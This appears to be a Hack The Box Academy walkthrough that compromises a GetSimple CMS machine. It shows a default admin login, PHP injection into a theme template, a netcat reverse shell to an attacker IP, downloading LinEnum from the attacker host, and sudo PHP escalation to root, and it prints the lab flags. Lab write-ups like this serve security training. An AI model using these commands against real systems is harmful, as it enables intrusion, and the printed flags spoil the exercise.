 # Hack The Box - Knowledge Check Walkthrough

## Introduction
This walkthrough covers the **HTB Academy - Getting Started: Knowledge Check** module. The goal is to gain a foothold on the target machine, escalate privileges to root, and retrieve the respective flags.

## Target Information

| Detail                | Information                |
|----------------------|--------------------------|
| **IP Address**      | 10.129.152.174           |
| **Operating System** | Linux                    |
| **Web Server**       | Apache 2.4.41 (Ubuntu)   |
| **CMS**             | GetSimple CMS            |

---

## Enumeration
### **1. Scanning with Nmap**
Start by identifying open ports and services:
```bash
nmap -sC -sV -oA enum_scan 10.129.152.174 -v
```
#### **Key Findings:**
- **Port 22 (SSH)** - Open
- **Port 80 (HTTP)** - Open, running Apache 2.4.41
- **http-robots.txt** - Disallowed entry: `/admin`
- **Web Server Title:** `GetSimple CMS`

### **2. Web Enumeration**
Identify running web applications and hidden directories:
```bash
whatweb http://10.129.152.174/
```
#### **Findings:**
- **CMS Detected:** GetSimple CMS
- **robots.txt Identified:** Possible admin panel at `/admin`

Perform directory brute-forcing using **Gobuster**:
```bash
gobuster dir -u http://10.129.152.174/ -w /usr/share/seclists/Discovery/Web-Content/common.txt
```
#### **Results:**
- **/admin/** (Admin panel)
- **/data/** (User-generated data storage)

---

## Exploitation
### **1. Finding Admin Credentials**
Inspecting `/data/users.xml`, we find:
```xml
<USR>admin</USR>
<PWD>d033e22ae348aeb5660fc2140aec35850c4da997</PWD>
```
Using **CrackStation** to crack the hash reveals the password: `admin`.

### **2. Gaining Admin Access**
Login to the **Admin Panel**:
```bash
curl -X POST -d "username=admin&password=admin" http://10.129.152.174/admin/index.php
```
**Successfully logged in!**

---

## Initial Foothold
### **1. Uploading a Web Shell**
Navigating to `/admin/upload.php`, we find file upload functionality but only for directories.

Attempting file upload via **cURL**:
```bash
curl -X POST -F "file=@shell.php" http://10.129.152.174/admin/upload.php
```
**Error: Upload blocked.**

### **2. Code Injection via Theme Editing**
Since upload is blocked, we exploit **theme customization**:
1. **Navigate to** `Admin Panel → Themes → Innovation → template.php`
2. **Insert PHP shell code:**
```php
<?php system('id'); ?>
```
3. **Save & Execute by visiting** `http://10.129.152.174/`

We confirm Remote Code Execution (RCE)!

### **3. Getting a Reverse Shell**
Modify **template.php** with:
```php
<?php system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <ATTACKER-IP> 9001 >/tmp/f"); ?>
```
Start a **Netcat Listener**:
```bash
nc -lvnp 9001
```
Visit the homepage to execute the shell.

We have **shell access as www-data**! 🎉

Upgrade to a fully interactive **TTY shell**:
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
stty raw -echo
fg
```

---

## Privilege Escalation
### **1. Running LinEnum for Enumeration**
Transfer **LinEnum.sh** to the target:
```bash
wget http://<ATTACKER-IP>:8080/LinEnum.sh
chmod +x LinEnum.sh
./LinEnum.sh
```
#### **Findings:**
- **Sudo privilege for PHP execution:**
```bash
sudo /usr/bin/php -r 'system("/bin/sh");'
```

### **2. Gaining Root Access**
Execute the following command:
```bash
sudo /usr/bin/php -r 'system("/bin/bash");'
```
We are now **root**! 🚀

Retrieve **root.txt**:
```bash
cat /root/root.txt
```

---

## Conclusion
### **Key Takeaways**
✅ **Enumeration:** Identified CMS & Admin panel.
✅ **Exploitation:** Leveraged template file edit for RCE.
✅ **Foothold:** Obtained a reverse shell via Netcat.
✅ **Privilege Escalation:** Abused sudo permissions to gain root.

### **Final Flags:**
- **User Flag:** `7002d65b149b0a4d19132a66feed21d8`
- **Root Flag:** `f1fba6e9f71efb2630e6e34da6387842`

Hack the Box - **Mission Accomplished!** 🎯
